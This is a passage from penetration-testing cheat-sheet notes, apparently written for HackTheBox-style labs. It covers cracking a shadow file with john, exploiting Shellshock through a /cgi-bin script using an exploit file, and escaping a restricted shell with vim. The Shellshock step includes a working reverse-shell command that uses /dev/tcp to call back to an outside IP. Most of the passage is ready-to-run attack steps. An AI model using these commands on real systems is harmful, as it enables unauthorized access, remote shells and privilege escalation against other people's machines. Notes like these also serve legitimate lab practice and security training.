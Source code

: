 AND dont forget salt!

#### crack shadow file

1. copy and unshadow
2. crack with john 


## Post Exploitation

https://guif.re/linuxeop#Post%20exploitation


## Diverse Other exploits

### Shell Shock 

* spot /cgi-bin
* dirbust .sh .cgi or some more exotic script files in it 
* use 34766.php

`php 34766.php -u http://shocker.htb/cgi-bin/user.sh -c "sh -i >& /dev/tcp/10.10.14.18/443 0>&1" `

### Breaking out of restricted shell using vim

```bash
vim
:set shell=/bin/sh
:shell
```
